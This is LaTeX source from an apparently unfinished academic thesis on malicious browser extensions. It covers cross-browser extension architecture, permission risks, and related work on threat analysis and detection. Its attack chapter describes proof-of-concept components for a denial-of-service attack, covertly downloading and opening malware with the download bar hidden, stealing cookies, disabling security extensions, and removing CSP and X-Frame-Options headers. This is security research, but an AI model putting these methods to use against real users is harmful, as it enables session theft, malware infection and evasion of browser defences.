	An extension can execute unrestricted web requests from within a content script using an iframe element. We use this fact to implement a component that executes a Denial of Service attack. Our component uses a single content script that repeatedly creates a new iframe element and loads the targeted web page. To prevent that the browser fetches the web page from its cache, we add a random number as parameter to the target URL. This attack is especially effective if the extension is active in multiple browsers. We can the command to execute the attack to all active extensions, using a communication technique that we have described in \autoref{sec:communication}.

\subsection{Download Harmful Files}
\label{sec:downloads}

	Using the \textit{download} module, an extension is able to monitor and cancel the user's downloads or to initiate a download itself and even to open a downloaded file. We misuse this feature to get access to the user's machine which the extension itself does not have. For that purpose, we download a harmful file which contains malware or similar malicious content on the user's computer and execute it. 
	
	We implemented a component that downloads a file and opens it. For that purpose, the extension needs the \texttt{downloads} permission and additionally the \texttt{downloads.open} permission to open the downloaded file and the \texttt{downloads.shelf} permission to hide the download from the user. The \texttt{downloads.shelf} permission enables an extension to show or remove the shelf at the bottom of the browser that shows active downloads. \\
	To open a downloaded file, the user has to interact with the extension and deliver some kind of input such as a mouse click. If no user input is given, the browser blocks the opening of a file. For our implementation, we use a content script that adds an on click event to each element of the current web page. If the user clicks any element, we send a message to our background script which also transfers the desired user input and use this to open the file. \\
	We start our component by disabling the download status bar of the browser so that the user does not see the download. Then, we initiate the download of a harmful file. When the download has finished, we await a message from our content script and use the transmitted mouse click to open the downloaded file. Finally, we delete our file from the browser's list of downloads and re-enable the download status bar to prevent that the user notices the download.
	
	We implemented another component that cancels a download which the user has initiated and then initiate a download ourself of a harmful file. Our goal is that the user does not notices that we cancel his download and initiate a second one and then opens the harmful file. For that purpose, we extract the name and mime-type of the file that the user wants to download and send it along the request to download the harmful file. This allows us to set the mime-type and filename of the harmful file. To further hide our attack, we may deactivate the status bar while we exchange the downloads if the extension has the \texttt{downloads.shelf} permission. \\

\subsection{Steal Cookies}
\label{sec:stealCookies}

	We implemented two components for our design, that follow different strategies to steal currently stored cookies from the user's browser. Cookies often contain a session id that authenticates the current user to a web application. If we obtain this information, we are able to impersonate the user on this particular web application. 
	
	JavaScript in a displayed web page has access to cookies that belong to the same domain as the web page with exception to cookies with the \texttt{httpOnly} key set. We use this in our first implementation that uses a single content script in any web page. The cookies are stored inside the DOM and we access them with with \texttt{document.cookie}. Obviously, this implementation is restricted to web page's that the user visits while the extension is active and without access to \texttt{httpOnly} cookies. Therefore, we implemented the second approach that uses the \texttt{cookies} module. Using this module, we have access to all cookies that are currently stored inside the browser without restrictions besides the extension's permissions. To use it, the extension needs the \texttt{cookies} permission and host permissions for any web page such as \texttt{http://*/*} and \texttt{https://*/*}. We use the method \lstinline|{chrome.cookies.getAll| which accepts an object to filter retrieved cookies based on the cookie's values such as the URL, domain, or its secured state.

\subsection{Disable Other Extension}
\label{sec:disableOtherExtension}

	In order that other, security relevant extensions do not block our attack implementations, we implemented a component that disables another extension. For that purpose, the extension needs the \texttt{management} permission which gives access to the correspondent module. To disable another extension, we need the targeted extension's name or id.
	The method \lstinline|chrome.management.getAll| returns a list of currently installed extensions. We iterate the list and compare the name or id of each extension to determine the targeted one. If we find the matching extension, we use the method \lstinline|chrome.management.setEnabled| to deactivate it.

\subsection{Remove Security Headers}
\label{sec:removeSecurityHeaders}
	
	We implemented a component that removes security relevant response headers. We use this implementation to support our component that opens a particular web page in an iframe which we have shown in \autoref{sec:executeAttackInBackground}. This attack is hampered by web pages that use the \texttt{X-Frame-Option} header, because the browser disallows displaying the web page inside an iframe. By removing this header from the web request's response, we improve the attacks' success rate. Similar, we can support any content script that executes web requests to fetch content. If the web page uses a Content Security Policy that blocks the loading of scripts or other web pages, we can remove the CSP and allow our content script to execute its task.
	
	Our component needs the \texttt{webRequest} permission to access the corresponding module and the \texttt{webRequestBlocking} permission to be able to intercept the request's processing until we have removed the targeted response header. Additionally, the component needs host permissions that match the request's target URL. 
	
	
%% !TeX spellcheck = en_US

\section{Motivation}
	% statistics (browser usage, extension amount, extension usage)
	% real world examples of malicious extensions
\section{Goals}
\section{Approach}
	% work steps / paper draft
%% !TeX spellcheck = en_US

\section{Extension Architecture}

	We have analyzed three different extension architectures to find commonalities and differences: 
	\begin{itemize}
		\itemsep-0.5em
		\item WebExtensions, applicable for Chrome, Opera, and Firefox
		\item Firefox Add-ons
		\item Safari Extensions
	\end{itemize}
	
	In 2009, Google introduced a new extension model for its Chrome browser. 4 years later, the developer of the Opera browser decided to change their browser framework to Chromium \cite{operaBlogSwitchToChromium}. By adapting the same underlying framework as Chrome, Opera also adapted the extension model. It became possible to use the same extension on both browsers. The Mozilla developers recently started to implement their own implementation to support Chrome's extension model in Firefox. Their goal is to establish a general model for extensions which is applicable on all browsers. They orientate themselves on the standardization of web pages. The same extension implementation should work equal on all browsers, similar how the same web page is displayed equal on all browsers. %TODO
	In their development process, they named their implementation \textit{WebExtension}. We agreed to adapt their nomenclature in our paper to reefer to this cross-browser extension model. Because the WebExtension support for Firefox is still in development, extensions for Firefox are currently implemented in their old model called \textit{Add-ons}. \\
	%We abstained from analyzing the extension architecture of Internet-Explorer. The browser is out-of-date with the publishing of Windows 10 and their new Browser \textit{Edge} which currently does not support extensions.
	
	\textbf{Development} All extensions are written in web technologies such as JavaScript, HTML and CSS. Therefore, a standard editor can be used to write the extension's source code. 
	
	\begin{table}[h]
		\begin{tabular}{|p{0.3\textwidth}|p{0.3\textwidth}|p{0.3\textwidth}|}\hline
			\textbf{WebExtension} & \textbf{Firefox Add-on} & \textbf{Safari Extension} \\ \hline
			WebExtensions are developed locally as a bundle of JavaScript, HTML, and CSS files. To debug them, the developer can load the bundle in the browser. There is no need for additional software. & 
			Mozilla provides a JavaScript framework to develop Firefox Add-ons. The developer has to install the framework before he starts to implement an Add-on. & 
			Safari provides an user interface to build extensions. The developer can enter needed information directly in the browser and add local source code files. \\ \hline
		\end{tabular}
		\caption{Differences in extension development}	
	\end{table}

	\textbf{Structure} Each extension consists of a background and content scripts.
	
	
	For every extension exists mandatory information such as name, version, author, icon, permissions, and other meta-data. They are stored inside special files in the extension bundle. 
	
	\begin{table}[h]
		\begin{tabular}{|p{0.3\textwidth}|p{0.3\textwidth}|p{0.3\textwidth}|}\hline
				\textbf{WebExtension} & \textbf{Firefox Add-on} & \textbf{Safari Extension} \\ \hline
				WebExtensions use a \texttt{JSON} file called \texttt{manifest.json}. & 
				Add-ons also use a \texttt{JSON} file called \texttt{package.json}. & 
				Safari stores the information and settings in \texttt{.plist} files which are filled automatically by Safaris extension builder interface. \\ \hline
			\end{tabular}
		\caption{Differences in extension manifest and settings}
	\end{table}

	\textbf{Extension Background} The extension's main logic is stored inside the extension's background process. It has full access to the browser API and can exchange messages with injected content scripts via a string based message channel.
	
	\begin{table}[h]
		\begin{tabular}{|p{0.3\textwidth}|p{0.3\textwidth}|p{0.3\textwidth}|}\hline
			\textbf{WebExtension} & \textbf{Firefox Add-on} & \textbf{Safari Extension} \\ \hline
			The extensions background is stored inside a single HTML page. JavaScript files with the extension's logic are embedded as script elements in the page.  & 
			& 
			\\ \hline 
		\end{tabular}
		\caption{Differences in the extension's background}
	\end{table}
	
	\textbf{Browser API} The browser provides special functionality to it's extensions such as access to the user's web history and bookmarks, to intercept web requests, and to take screen shots. The extensions background has full access to the API, but content scripts have only access to mandatory modules, for example the communication channel to the background. 
	
	\begin{table}[h]
		\begin{tabular}{|p{0.3\textwidth}|p{0.3\textwidth}|p{0.3\textwidth}|}\hline
			\textbf{WebExtension} & \textbf{Firefox Add-on} & \textbf{Safari Extension} \\ \hline
			The access to the browser API is restricted by permissions. Each API module has a proper permission which needs to be declared in the extension's manifest to get access to the module. Additionally, some permissions throw a warning when the user installs the extension. & 
			& 
			Safari does not support programmatically injection of content script. The developer can only declare them in the extension builder interface. \\ \hline 
		\end{tabular}
		\caption{Differences in browser API's}
	\end{table}

	\textbf{Content Scripts} To interact with a web page, the extension executes \textit{content scripts} which have full access to the web page's DOM. They behave like JavaScript embedded inside a HTML page which means they have access to the \texttt{window.document} object. This allows them to manipulate the page's structure or change the reaction to user input. Content scripts can not call methods on the extension's core scripts, but only exchange string based messages with them. \\ 
	The developer can register content scripts for his extension with corresponding URL pattern. The browser compares the pattern with the web pages URL every time a web page is loaded. If both match, the browser will inject the content script in the web page. The developer can use wildcards in the URL pattern to match several web pages at once. For example, a content script with the pattern \texttt{http://*.example.com/*} will be injected into web pages from the domain \texttt{http://api.example.com/} and \texttt{http://www.example.com/foo} but not into the pages from \texttt{https://www.example.com/} and \texttt{http://www.example.org/}. Additional, if the developer wants to determine himself when to inject a content script, he can programmatically inject them. \\
	
	\begin{table}[h]
		\begin{tabular}{|p{0.3\textwidth}|p{0.3\textwidth}|p{0.3\textwidth}|}\hline
			\textbf{WebExtension} & \textbf{Firefox Add-on} & \textbf{Safari Extension} \\ \hline
			The developer declares content scripts statically in the extension's manifest. At runtime, the injection of static content scripts can not be prevented. Programmatically injection is also possible, but needs special permissions to access the web page. & 
			Content scripts are dynamically registered in the source code at any time. & 
			Safari supports both static and dynamic registration of content scripts, but not programmatically injection. The extension builder interface provides the functionality to add static content scripts. Safari uses not only as a whitelist for its content scripts but also an additional blacklist. \\ \hline 
		\end{tabular}
		\caption{Differences in content scripts}
	\end{table}


	
	The extension models we analyzed have a common base structure. They are implemented in the web technologies JavaScript, HTML and CSS and consists of two parts: The extension's core logic that interacts with the browser and so called \textit{content scripts} that interact with the web page. The extension's core logic is stored inside a single HTML page with embedded JavaScript that implements the behavior. This page is active in the background while the browser is running. It has access to the browser's API that provides additional features such as the access to the browsers tab system or to read the user's bookmarks or web history. Each browser also provides user interfaces to the extension which are mostly buttons in the browser's tool-bars, pop-up HTML pages, or entries in the context menu. \\
	To interact with a web page \textit{content scripts} are executed in the scope of the web pages DOM. They behave like JavaScript which is embedded inside a HTML page, means they have access to the web pages DOM via the \texttt{window.document} object. This allows them to manipulate the DOM tree or change the pages reaction to user input. The injection of content scripts inside a web page is restricted by URL pattern. These are matching pattern that use wildcards to match several web pages at once. For example, a content script with the URL pattern \texttt{http://*.example.com/*} would be injected into the pages \texttt{http://api.example.com/} and \texttt{http://www.example.com/foo} but not into the pages \texttt{https://www.example.com/} and \texttt{http://www.example.org/}. The content script is separated from the extension's core. It can not directly access functions on the extension's core but only exchange messages over a string based channel. It has also almost no access to the browser's API. The range of exposed functions differs between the browsers. \\ 
	A further separation exists between the web page and each injected content script. Each script and the web page runs in its own JavaScript heap with its own DOM object. Consequently, content scripts among each other and the web page can not access each other. Both the web page's script and the content script have access to the variable \texttt{window.document}, but these variables refer to separate JavaScript objects that represent the underlying DOM. If one script now calls a DOM-specific method, such as \texttt{createElement()}, the underlying the DOM and both objects are updated accordingly. However, if a script modifies a non-standard DOM property, such as \texttt{document.bar}, it is not transfered to the DOM and therefore not to the other object, too. The web page and a content script can communicate with each other by using the DOM specific function \texttt{window.postMessage}. The function fires an event which then can be read by an event listener.
	
\subsection{Multi Browser Extensions}
	
	In 2009, Google introduced a new extension model for its Chrome browser. 4 years later, the developer of the Opera browser decided to change their browser framework to Chromium \cite{operaBlogSwitchToChromium}. By adapting the same underlying framework as Chrome, Opera also adapted the extension model. It became possible to use the same extension on both browsers. The Mozilla developers took the chance to expand the utilization of cross browser extensions and integrated Chrome's extension model into Firefox \cite{mozillaBlogWebExtension}. \\
	The model was created accordingly to the proposal from Barth et al. \cite{Barth10protectingbrowsers}. In his work he investigated the old extension model of Mozilla's Firefox and revealed many vulnerabilities in connection to Firefox extensions running with the user's full privileges. This enables the extension to access arbitrary files and launch new processes. He proposed an new model with a strict separation of an extension's content and an permission system that to make it more difficult for an attacker to gain access to the user's machine. \\ 	
	%TODO mention isolated world
	The permission model is designed to limit the danger from benign-but-buggy extensions \cite{Barth10protectingbrowsers}. It is assumed that most extensions are developed by non professional developers who might implement an attack vector by mistake. The permissions should prevent the leak of privileged functions in the case that the extension is compromised. For that purpose the model is built on the principle of least privilege. The access to any API module is disabled by default and only enabled if appropriate permissions are set. The developer should only declare permissions that are necessary for his extension's legitimate purpose. In the case that the extension is compromised the attacker can only use the declared functionality at runtime. Cross-origin access is also restricted by permissions. Although extensions are not bound to the \textit{Same Origin Policy}, Chrome disables requests to remote servers if no appropriate host permission is declared. Equal to content scripts, host permissions take an URL pattern to match several hosts at once. Both type of permissions are declared in the extension's mandatory \textit{manifest} file as seen in Figure 1. Some permissions trigger a warning when a user installs the extension. For example results a host permission in a warning that the extension can read and modify the user's data on the host's web page. Warnings also show up if an extension is updated and its permission's have changed. \\
	
	\lstset{
		numbers=left,
		xleftmargin=2em
	}
%	\lstinputlisting{lib/manifest.json}
	
	Figure 1: Example of a manifest. It shows an extension with two injected scripts and a corresponding host pattern. The extension uses one JavaScript file as its non persistent background page and requests access to two API modules and one cross-origin. Finally, it defines its own Content Security Policy. \\ \\
	
	There are two kinds of background pages: Persistent background pages that are active all the time and non-persistent background pages also called \textit{event pages} that are only active if needed. The browser loads the event page if a task has to be performed and unloads it as soon as the task is finished. This behavior saves memory and resources, consequently giving a better performance. The event page is triggered if the extension is installed or updated so that the background page can register for events, an registered event is dispatched, or an other script accesses the event page. \\
	Both kinds of background page underly a \textit{Content Security Policy (CSP)} \footnote{World Wide Web Consortium CSP2 specification: \url{http://www.w3.org/TR/CSP2/}}. CSP is a web security policy intended to prevent potential content injection attacks. The developer controls the resources the web page loads and executes by listing trusted sources. This is intended as a deeper defense layer to reduce the harm a malicious injection could do, but it is no replacement for a first defense layer such as an input validation or output encoding. The CSP for the extension's background page holds three default rules:
	\begin{itemize}
		\itemsep0em 
		\item JavaScript embedded in the background page with an origin different from the extension's installation is disabled.
		\item Inline JavaScript such as \texttt{<script>} tags or \texttt{onclick="function()"} event handler are disabled.
		\item The use of \texttt{eval} and related functions such as \texttt{setTimeout()} and \texttt{setInterval()} are disabled.
		\footnote{The JavaScript function \textit{eval} is considered dangerous. It executes the given string as a new JavaScript process that has the privileges of the calling process. If the given input can be affected by a third party, it would open a possibility for a content injection attack \cite{mozillaDangerousEval}.}  
	\end{itemize}
	The developer can either relax these policies if his extension needs to use some of the disabled functionality or even tighten them in order to increase the security. Figure 1 shows an example for a CSP. The key \texttt{"default-src 'none'} tightens the policy by disabling resources from any source. Controversial, the second key \texttt{script-src 'self' 'unsafe-eval'} allows to uses script from withing the extension's installation and relaxes the policy by allowing the use of \textit{eval} inside the loaded script. \\
	
	The following list is an extract of the provided API modules with associated permissions and which browser currently supports them. Firefox and Opera are still developing their implementation of the API. The whole lists are found on the developer platforms \cite{chromeDevApiList, operaDevApiList, mozillaDevApiList}. The list is filtered based on modules that provide functionality which can be misused in some form. \\
	
	\begin{tabular}{lp{0.5\textwidth}p{0.26\textwidth}}
		\textbf{Module} & \textbf{Description} & \textbf{Potential Risk} \\ 
		\hline
		
		\textit{activeTab} & Gives the extension temporary access to the active tab only if the user invokes the extension - for example by clicking on a button. This permission is suggested for extensions that otherwise would need full, persistent access to every web page to act if invoked by the user. The activeTab permission grants temporary the \textit{tabs} permission without the need to declare it in the manifest. Not supported by Firefox. &  \\
		
		\textit{background} & If one or more extensions with the background permission are active, the browser runs invisible in the background starting with the user's login. This behavior is only implemented in Chrome and can be disabled generally in Chrome's configuration. & A malicious extension still acts after the browser window is closed. \\
		
		\textit{bookmarks} & Gives read and write access to the user's bookmarks. Only partially supported by Firefox. & Get information about preferred web pages or change the URL of a bookmark to a malicious web page. \\
		
		\textit{contentSettings} &	Allows the extension to overwrite the settings that control whether a web page can use features such as cookies, JavaScript, and plugins for particular web pages. Not supported by Firefox. & Reactivate settings that the user has explicitly deactivated on particular, maybe malicious web pages. For example the location tracking. \\
		
		\textit{cookies} & Gives the extension read and write access to all cookies even to \textit{httpOnly} cookies that are normally invisible to client-side JavaScript. Only partially supported by Firefox. & Steal the users session and authentication data that is mostly stored inside cookies. \\
		
		\textit{downloads} & With this module the extension can initiate, monitor or manipulate downloads. If the file is labeled as dangerous the browser prompts the user to accept the download \cite{chromeMaliciousDownloads}. Not supported by Firefox. &  \\
		
		\textit{geolocation} & Gives the extension access to the HTML geolocation API\footnote{World Wide Web Consortium Geolocation API specification: \url{http://www.w3.org/TR/geolocation-API/}} without prompting the user for permission. Not supported by Firefox and Opera. & Silently track or identify the user. \\
		
		\textit{management} & The extension can list, disable or uninstall other extensions with this module. If an other extension should be uninstalled the user is prompted to accept. Only partially supported by Opera and not supported by Firefox. & Silently disable privacy preserving extensions such as \textit{Adblock} or \textit{NoScript}. \\
		
		\textit{privacy} & The extension can request to change the browser's privacy settings. The request will be denied if an other extension uses the setting or the access is denied by default. Not supported by Firefox. & \\
		
		\textit{proxy} & Allows the extension to manipulate the browser's proxy settings. Not supported by Firefox. & Send user's requests through a malicious proxy like a server that tracks all requests. \\
		
		\textit{system} & Provides information about the user's host machine. Not supported by Firefox. & Create a profile to identify the user based on information such as the kernel or display name. \\
		
		\textit{tabs} & Gives access to the browser's tab system. Allows to create and close tabs, to inject scripts, and to connected to running content scripts inside a tab. Only partially supported by Firefox and Opera. & Prevent the user from uninstalling the extension by closing the extension management tab. Inject other scripts than the declared content scripts, even remote received. \\
		
		\textit{webRequest} & Gives access to events fired by the life cycle of a web request. Allows to observe, intercept or manipulate web requests. Only partially supported by Firefox. & Request data can be read and redirects executed. \\  	 	
		
	\end{tabular}
	
	The activeTab permission and the event pages do not only give a better performance but do also improve the security. If the extension is compromised the attacker would need to wait until the extension is active before obtaining access and would loose the access when the extension is unloaded. On the other hand if the extension itself is malicious it gets restricted in its actions to only act if the user invokes it. \\
	
	Chrome distributes its extensions over the Chrome Web Store\footnote{Chrome Web Store: \url{https://chrome.google.com/webstore/category/extensions}}. The installation of extensions from remote servers was disabled because this mechanism was often misused to install malicious extensions \cite{chromeProtectFromMalicious}. To further restrict the distribution of malicious extensions, Google added a registration fee for developers \cite{chromeWebStoreFee}. The developer has to add a credit card to his Google account. This allows Google to better identify the developer and it discourages possible malicious developers. Opera has its own web store, too \footnote{Opera Web Store: \url{https://addons.opera.com/en/}}. Anyone can commit a new extension which is then reviewed by Opera's developers. The extension is only published if it matches the acceptance criteria. Those range from correct execution over guidelines for adequate design to privacy preserving measures \cite{operaSecurityReviewAcceptance}. Extensions in the multi-browser model are currently not published for Firefox \cite{mozillaWebExtensionStatus}.
	
\subsection{Firefox ADD-ONs}
	
	Mozilla just started implementing the extension model \cite{mozillaBlogWebExtension}. The model is currently not released to Firefox and those extensions are not publicly distributed \cite{mozillaWebExtensionStatus}. Current extensions for Firefox are called \textit{add-ons} and are build with the browsers native technologies. This allows an add-on to use any feature that the browser can use. Mozilla distributed a JavaScript framework for building their add-ons that operates on the modules system defined by the \textit{CommonJS}\footnote{CommonJS Wiki Modules specification: \url{http://wiki.commonjs.org/wiki/Modules/1.1.1}} module format. This allows to resign from the native technologies and focus the development on web technologies. The framework handles the interaction with the native technologies, consequently keeping the access to the browser's features. If an add-on uses those features, it is automatically registered for an extra security review by Mozilla \cite{mozillaDevChromeAuthority}. \\
	The framework uses a \textit{package.json} file that manages the add-on's content similar to the extension's manifest file. Firefox add-ons do not have a permission system comparable to the permissions of the extension model. There is however a \textit{permission} section in the package file. But it only holds three keys: The first indicates whether or not the add-on can access private browsing windows. The second is a list of fully qualified domain names which can be accessed by content scripts. And the third indicates whether or not the add-on is compatible with the multiprocess version of Firefox. \\
	
	The following list shows an extract of the functionality provided to an add-on filtered on possible privacy risks. The full list of modules can be found on Mozilla's developer network \cite{mozillaDevHighLevelApiList, mozillaDevLowLevelApiList} 
	\begin{itemize}
		\item Access Firefox's built-in password manager.
		\item Access users data like bookmarks, favorite web pages, or history.
		\item Read content from URIs and use XMLHttpRequests \cite{w3cXMLHttpRequest}.
		\item Firefox provides a long list of events for which an add-on can register \cite{mozillaDevSystemEvents}.
		\item Read an write environment variables.
		\item Get technical information about the user's host machine.
		\item Access the users file system using the native interfaces.
	\end{itemize}
	
	Firefox uses an internal privilege system to restrict the access of remote JavaScript code. They differentiate between trusted \textit{chrome} code and untrusted \textit{content} code. Chrome code is everything that comes from the browser itself. Its own JavaScript that interacts with the underlying C++ core and add-ons that have access to the browser's API. On the other hand is everything that is loaded from the web classified as content. Objects in a higher privileged scope have full access to other objects in a less privileged scope. But by default they only see the native object without any modifications by the less privileged code. This prevents the higher level code to be tricked with modified functionality by untrusted code. Contrary, less privileged code can not access higher privileged code. In addition to the two main privilege levels, chrome code can generate sandboxes and determines its privilege level and its access to certain objects. Thereby it is possible to give a piece of JavaScript fine grained access to needed functionality without exposing security relevant functions and still protect it from access by less privileged code. For example, content scripts are executed inside a sandbox with certain privileges over content code. Thereby it is protected from direct access by the web page's code and can only see the web page's unmodified DOM. But it has still less privileges than chrome code and can therefore not access the add-on's core or the browser's API. \\
	Firefox uses a security mechanism to prevent an attacker that has compromised an add-on to access submodules that are not explicit requested inside the add-on. On compiling the add-on, a scanner lists all requests to modules inside the add-on's code. The runtime loader will actually prevent the loading of modules that are not listed. This prevents an attacker to use further modules and more privileged functions at runtime. \\
	
	Mozilla distributes add-ons for Firefox over their own web store\footnote{Firefox Web Store: \url{https://addons.mozilla.org/en-US/firefox/}} but also allows the installation from private web pages. Add-ons published over the web store are target to an security review \cite{mozillaDevReviewPolicy}. After passing the review the add-on is signed by Mozilla what is shown on installation. Similarly, if an add-on is published private it is labeled as untrusted on installation. 
	
	%\subsection{Safari Extension}
	%
	%	Safari provides an integrated environment for developing extension. The \textit{Extension Builder} is a build-in user interface where the developer can add files and set properties. The provided API for extensions is limited. It only allows the interaction with browser tabs. There is no support to access user data such as bookmarks or the web history. Safari extensions can only focus on DOM related functionality. \\
	%	The Extension Builder provides a special feature to block content. A list of \textit{Content-Blocking Rules} are compiled into a bytecode format and processed directly at runtime. Making the programmatically examination of content and determination of blocking unnecessary and therefore providing a better performance \cite{safariContentBlockingRules}. \\
	%	Safari's first level security for extension is implemented by certificates. Only registered developers can install a certificate for their extension. Safari disables extensions if the installed certificate is invalid. This should ensure that the extension's origin is known to Apple. It does not prevent the developer to add malicious behavior in his extension.
	
%% !TeX spellcheck = en_US

\chapter{Related Works}
\label{chp:relatedWorks}

	In this chapter, we review related works that we discovered during our research and that left their mark on our design and concept. In the first section, we discuss the research that directly affected the extension architecture that we analyze in this paper namely the work of Barth et al. which lays the foundation for the extension architecture, and the work of Carlini et al., in which they evaluated the new architecture and conducted additional security features \cite{Barth10protectingbrowsers, Carlini:2012:EGC:2362793.2362800}. In the second section, we present existing works on extension threat analysis. Thirdly, we present existing approaches to detect malicious extensions.

\section{Extension Architecture}
\label{sec:relatedWorks:extensionArchitecture}

	Firefox's initial extension architecture called \textit{Add-ons} was the subject of multiple scientific analyses which revealed several vulnerabilities such as an attacker being able to compromise the user's machine or to hide an installed, malicious extension completely from the user \cite{Bandhakavi:2011:VBE:1995376.1995398, TerLouw:2007:EWB:1420581.1420583}. The researchers proposed different approaches to improve the security for the user such as to find malicious code pattern \cite{Bandhakavi:2011:VBE:1995376.1995398}, monitor the extension at runtime and detect the theft of sensitive information \cite{Dhawan:2009:AIF:1723192.1723250, cs2015sentinel, TerLouw:2007:EWB:1420581.1420583}, or add an integrity check of an extension's code at runtime \cite{TerLouw:2007:EWB:1420581.1420583}. A very successful approach was proposed by Barth et al. who designed a new extension architecture that was later on adapted by multiple browsers \cite{Barth10protectingbrowsers}. 
	
	Barth et al. analyzed Firefox's Add-on model and found several vulnerabilities which may be used by an attacker to gain access to the user's computer. In their research they focused on unintentional security vulnerabilities in extensions which occur because extension developers are often not security experts. Firefox runs its extensions with the user's full privileges including to read and write local files and launch new processes. This gives an attacker, who has compromised an extension, the possibility to get control over the user's machine. 
	
	Barth et al. proposed a new, more secured model for extensions. In the case that an extension is compromised, the attacker's operating range is minimized. The proposed architecture was adapted by Google's developers for their Chrome browser in 2010. Carlini et al. evaluated the security mechanisms of Google's implementation and reviewed 100 extensions \cite{Carlini:2012:EGC:2362793.2362800}. They discovered 40 containing vulnerabilities of which 31 could have been avoided if the developer would have followed simple security best practices such as using HTTPS instead of HTTP and the DOM property \texttt{innerText} that does not execute inline scripts instead of \texttt{innerHtml}. They stated, that the architecture's security mechanisms effectively protect the user from an attacker who uses a malicious web page. However, they discovered that network attacks are a bigger threat to the extension than attacks from a web page. An attacker can compromise an extension by modifying a remotely loaded script that was fetched over a HTTP request. 
	
	In order to increase the security of Chrome extensions, Carlini et al. proposed to ban the loading of remote scripts over HTTP and inline scripts inside the extension's core scripts. They did not propose to ban the use of eval in light of the facts that eval itself was mostly not the reason for a vulnerability and banning it would break several extensions. Google's developers were responsive to the exposed vulnerabilities and added a default Content Security Policy to web pages inside the extension \cite{chromiumBlogCSP}. Furthermore, they disabled the fetching of remote scripts with HTTP using script elements inside the extension's web pages.
 
 	In our work, we conduct a privacy threat analysis of browser extensions focusing on intentionally implemented attacks targeting the current user. Our research shows that although the extension architecture provides many security features, it does not protect the user from intentionally implemented malicious behavior.
 
 \section{Threat Analysis of Malicious Extensions}
 \label{sec:relatedWorks:threatAnalysis}
 
	Other researchers have already investigated the threats that arise from a malicious extension. For that purpose, they followed a workflow that we also use in our research. They examined the extension's architecture, pointed explicit threats, and implemented a proof-of-concept that uses discovered threats.
 
	Liu et al. conducted a threat analysis of Chrome extensions and discovered that the extension's unrestricted access to the web page and the possibility to execute unrestricted web requests pose harm to the user's privacy \cite{Liu12chromeextensions:}. These capabilities enables a malicious extension to extract and transfer sensitive user information from any web page that the user visits. The researcher's analysis revealed that the extension's components share the same set of privileges which leads to some components having privileges they do not need. This violates the principle of least-privileges which was intended by the designers and therefore facilitates the integration of malicious behavior. 
	If the extension requests the privileges to access a specific origin, the extension is allowed to access matching web pages and to programmatically execute web requests to the server. Liu et al. proposed separated privileges for each component and to split them based on particular operations such as to inject a script or execute a web request. However, the scripts that can access the web page's DOM are still able to execute unrestricted web requests by adding an element to the DOM that fetches a resource from a remote origin. To mitigate this threat, the researchers proposed to restrict the extension and allows that only content from listed origins can be added to the DOM. \\
	Furthermore, an extension has unrestricted access to the web page and its content. This allows a malicious extension to extract sensitive information. Liu et al. proposed a categorization of DOM elements to identify container of sensitive information and restricted access to these elements by default. \textit{High level} elements such as input elements of type password or hidden contain inherently sensitive information. To identify \textit{medium level} elements that may contain sensitive information, the researchers proposed a catalog with regular expressions that match code words such as \textit{username}. Finally, every element else is categorized as \textit{low level}. By default, an extension should have only access to low level elements and the extension may request access to the other levels by a proper permission. \\
 	
	In another research, Liu et al. demonstrated the possibility to user extensions in a botnet \cite{liu2011botnet}. As a proof-of-concept, they developed an extension for Chrome and another for Internet explorer that act as bots. The extensions are able to execute DDoS attacks, email spamming, and steal the user's credentials. To send an email, the extension uses the user's email account. If the user logs into his account, the extension executes a web request to send an email with the spamming content. The email server will actually execute the request because the user is currently authenticated. \\
 	A botnet needs a communication channel that allows the attacker to control the bots. For their extensions, the researchers use the automatic update and modify the content of a configuration file. The extension reads the file and acts accordingly. After the attacker publishes a new update, which will start a new attack, the update will be installed as soon as the browser is active. 
 	
	Another research about malicious Chrome extensions demonstrates a large list of possible attacks against the user's privacy \cite{extensions:cns14}. Bauer et al. implemented several attacks such as stealing sensitive information, executing CSRF attacks, and tracking the user. 
	 
	Ter Louw et al. evaluated Firefox's Add-on model with the main goal to ensure the integrity of an extension's code \cite{TerLouw:2007:EWB:1420581.1420583}. They implemented an extension to show that it is possible to manipulate the browser beyond the features that Firefox provides to its extensions. They used the found exploits to hide their extension completely by removing it from the list of installed extensions and injecting it into an presumably benign extension. Furthermore, their extension collects any user input and data and sends it to an remote server. Firefox can not ensure the integrity of an extension's code because it does not validate it when loading the extension. Therefore, a malicious extension can silently integrate code into another installed extension. In order to remove this vulnerability, Ter Louw et al. proposed so-called user-signed extensions. The user has to explicitly allow the installation of an extension which is then signed with a user's certificate. The extension's integrity will be tested against the certificate when it is loaded. 

	In our work, we do not limit ourselves to the extensions of a specific browser, but instead focus on a cross-browser architecture. For that purpose, we ensured that our proof-of-concept implementations work as expected in all applicable browsers. Furthermore, our extension analysis shows that even complex attack scenarios can be executed with existing extensions.
	
\section{Detection Of Malicious Extensions}
\label{sec:relatedWorks:detectionOfMaliciousExtensions} 
	
	There are several works on automatic detection of malicious extensions. We present two works that focus on Chrome extensions and one that focuses on Firefox Add-ons.
	
	\textit{Hulk} is an dynamic analysis and classification tool for chrome extensions \cite{184485}. It categorizes analyzed extensions based on discoveries of actions that may or do harm the user. An extension is labeled \textit{malicious} if behavior was found that is harmful to the user. If potential risks are present or the user is exposed to new risks, but there is no certainty that these represent malicious actions, the extension is labeled as \textit{suspicious}. This occurs, for example, if the extension remotely loads scripts whose content can change without any relevant changes in the extension. The script needs to be analyzed every time it is loaded to verify that it is not malicious. The developers stated that this task can not be accomplished by their analysis tool. Lastly, an extension without any trace of suspicious behavior is labeled as \textit{benign}.  Kapravelos et al. used Hulk in their research to analyze a total of 48,322 extensions, where they labeled 130 (0.2\%) as malicious and 4,712 (9.7\%) as suspicious. \\
	Before the actual analysis, Hulk performs static preparations such as to collect URLs from the extension's source code that may trigger its behavior. Additionally, the developer fed Hulk with popular websites such as Facebook, Amazon, or Twitter. This task has its limitations. The presented solution is not able to create accounts and therefore cannot access web pages specific to a concrete account. \\
	The actual, dynamic analysis consists of the monitoring and evaluating of API calls, in- and outgoing web requests, and injected content scripts. Some calls to Chrome's extension API are considered malicious, such as uninstalling other extensions or preventing the user to uninstall the extension itself. This is often accomplished by closing Chrome's extension page as soon as the user opens it and therefore denying the user access. Web requests are analyzed for modifications such as removing security relevant headers or changing the target server. Hulk uses so called \textit{honey pages} to analyze the interaction with a web page or its manipulation by an extension. These consist of overridden DOM query functions that create elements on the fly. If a script queries for a DOM element, the honey page creates it and monitors any interaction. 
	
